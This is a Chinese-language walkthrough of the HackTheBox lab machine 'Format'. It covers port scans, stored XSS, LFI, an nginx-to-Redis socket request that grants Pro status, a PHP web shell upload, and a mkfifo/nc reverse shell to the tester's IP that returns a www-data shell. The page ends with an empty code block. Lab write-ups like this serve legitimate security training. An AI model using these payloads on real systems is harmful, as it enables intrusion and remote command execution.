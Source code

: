 # Format

目标探测

Nmap扫描目标全端口的开放端口

```
┌──(root㉿kali)-[~/Desktop/TargetDrone/HTB/Format]
└─# nmap -n -v -sS -p- 10.10.11.213 --max-retries=0 -oN allport.txt -Pn
# Nmap 7.94 scan initiated Thu Aug 31 04:33:31 2023 as: nmap -n -v -sS -p- --max-retries=0 -oN allport.txt -Pn 10.10.11.213
Warning: 10.10.11.213 giving up on port because retransmission cap hit (0).
Nmap scan report for 10.10.11.213
Host is up (0.45s latency).
Not shown: 37673 closed tcp ports (reset), 27859 filtered tcp ports (no-response)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
3000/tcp open  ppp

Read data files from: /usr/bin/../share/nmap
# Nmap done at Thu Aug 31 04:43:48 2023 -- 1 IP address (1 host up) scanned in 617.53 seconds
```

对这三个端口进行详细扫描

```
┌──(root㉿kali)-[~/Desktop/TargetDrone/HTB/Format]
└─# nmap -n -v -sC -sV -p $(cat allport.txt | grep ^[0-9]|cut -d / -f1|tr '\n' ','|sed s/,$//) 10.10.11.213 -oN nmap.txt -Pn
# Nmap 7.94 scan initiated Thu Aug 31 04:49:25 2023 as: nmap -n -v -sC -sV -p 22,80,3000 -oN nmap.txt -Pn 10.10.11.213
Nmap scan report for 10.10.11.213
Host is up (0.52s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 c3:97:ce:83:7d:25:5d:5d:ed:b5:45:cd:f2:0b:05:4f (RSA)
|   256 b3:aa:30:35:2b:99:7d:20:fe:b6:75:88:40:a5:17:c1 (ECDSA)
|_  256 fa:b3:7d:6e:1a:bc:d1:4b:68:ed:d6:e8:97:67:27:d7 (ED25519)
80/tcp   open  http    nginx 1.18.0
|_http-server-header: nginx/1.18.0
|_http-title: Site doesn't have a title (text/html).
| http-methods: 
|_  Supported Methods: GET HEAD
3000/tcp open  http    nginx 1.18.0
|_http-title: Did not follow redirect to http://microblog.htb:3000/
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.18.0
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Aug 31 04:50:21 2023 -- 1 IP address (1 host up) scanned in 56.17 seconds
```

在端口 3000 上，它将我们重定向到microblog.htb域，因此我们将其添加到 /etc/hosts, 如果我们尝试通过端口 80 访问该网站，它会将我们重定向到app.microblog.htb子域，因此我们也添加它,我们访问主网站，在本例中是子域。

<figure><img src="../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

我们在网站上注册，创建一个子域并将其添加到/etc/hosts。

```
┌──(root㉿kali)-[~/Desktop/TargetDrone/HTB/Format]
└─# cat /etc/hosts                                                            
127.0.0.1       localhost
127.0.1.1       kali
10.10.11.213    app.microblog.htb
10.10.11.213    microblog.htb
10.10.11.213    myawesomeblog.microblog.htb
```

<figure><img src="../../.gitbook/assets/image (76).png" alt=""><figcaption></figcaption></figure>

添加后，我们可以编辑子域，因此我们尝试创建 XSS。

<figure><img src="../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

我们可以看到，这是一个 XSS Stored

<figure><img src="../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

我们尝试从子域的 TXT 记录捕获请求并尝试执行 LFI，_id_字段容易受到 LFI 的攻击，我们发现了 2 个用户：**cooper**和**git**

<figure><img src="../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

我们通过端口3000访问网络，它是一个Gitea，用户**Cooper**有一个存储库。正如我们在图片中看到的，这些是网站文件和子域，因此我们查看代码以查找漏洞。

<figure><img src="../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

在第25行和第35行之间我们可以发现这部分代码非常有趣。我们可以看到，如果_isPro_条件为_True_，那么我们可以上传某种类型的文件，尽管它们可能只是图像。无论如何，我们必须成为_专业人士_才能将文件上传到网络。

```
function provisionProUser() {
    // 检查用户是否为专业用户
    if (isPro() === "true") {
        // 获取并清理博客名称
        $blogName = trim(urldecode(getBlogName()));

        // 为博客目录和其编辑子目录添加写权限
        system("chmod +w /var/www/microblog/" . $blogName);
        system("chmod +w /var/www/microblog/" . $blogName . "/edit");

        // 将bulletproof.php文件复制到博客的编辑子目录中
        system("cp /var/www/pro-files/bulletproof.php /var/www/microblog/" . $blogName . "/edit/");

        // 创建一个名为"uploads"的子目录，并设置其权限
        system("mkdir /var/www/microblog/" . $blogName . "/uploads && chmod 700 /var/www/microblog/" . $blogName . "/uploads");

        // 移除博客目录和编辑子目录的写权限
        system("chmod -w /var/www/microblog/" . $blogName . "/edit && chmod -w /var/www/microblog/" . $blogName);
    }
    return;
}

```

服务器通过 REDIS 工作，为了将我们的帐户转换为_Pro_，我们必须指向套接字并采用 HSET 格式。HSET 基本上你所做的就是更改指定字段的值。

如果您在注册时输入了任何其他用户名，请确保在 cmd 中更改该用户名，我使用 hyper，作为用户名，所以我使用了 hyper

```
┌──(root㉿kali)-[~/Desktop/TargetDrone/HTB/Format]
└─# curl -X HSET "http://microblog.htb/static/unix:%2Fvar%2Frun%2Fredis%2Fredis.sock:hyper%20pro%20true%20a/b"
```

一旦我们成为专业用户，我们就通过Burpsuite发送请求并 ping攻击者的机器，可以看到已经成为Pro

<figure><img src="../../.gitbook/assets/image (79).png" alt=""><figcaption></figcaption></figure>

```
id=/var/www/microblog/hyper/uploads/test.php&txt=<%3fphp+echo+shell_exec("ping+-c+1+10.10.16.18")%3b%3f>
```

<figure><img src="../../.gitbook/assets/image (80).png" alt=""><figcaption></figcaption></figure>

我们通过tun0接口监听 ICMP 跟踪。请求发送后，我们必须访问以下网站路线。

```
┌──(root㉿kali)-[~]
└─# sudo tcpdump -n -i tun0 icmp                                                                              
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
```

发送请求后，我们必须访问以下 Web 路径才能执行 PHP 代码。

<figure><img src="../../.gitbook/assets/image (81).png" alt=""><figcaption></figcaption></figure>

如果一切正确，我们将收到受害计算机的 ICMP 跟踪，从而验证我们是否有能力执行命令。

```
┌──(root㉿kali)-[~]
└─# sudo tcpdump -n -i tun0 icmp                                                                              
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
03:35:47.512285 IP 10.10.11.213 > 10.10.16.18: ICMP echo request, id 2100, seq 1, length 64
03:35:47.512349 IP 10.10.16.18 > 10.10.11.213: ICMP echo reply, id 2100, seq 1, length 64
```

我们向攻击者机器发送一个反向 shell 。

```
id=/var/www/microblog/hyper/uploads/shell.php&txt=<%3fphp+echo+shell_exec("rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|sh+-i+2>%261|nc+10.10.16.18+4444+>/tmp/f")%3b%3f>
```

<figure><img src="../../.gitbook/assets/image (83).png" alt=""><figcaption></figcaption></figure>

访问shell.php以执行shell.php

```
┌──(root㉿kali)-[~]
└─# nc -lnvp 4444                                                      
listening on [any] 4444 ...
connect to [10.10.16.18] from (UNKNOWN) [10.10.11.213] 49978
sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

如果我们运行 pspy 并看到一个有趣的 redis 进程。

```
$ ps -aux | grep redis
redis        601  0.1  0.3  65164 15232 ?        Ssl  14:30   0:17 /usr/bin/redis-server 127.0.0.1:0
```

对于用户，我们必须使用socks配置文件连接到redis-cli

```
```
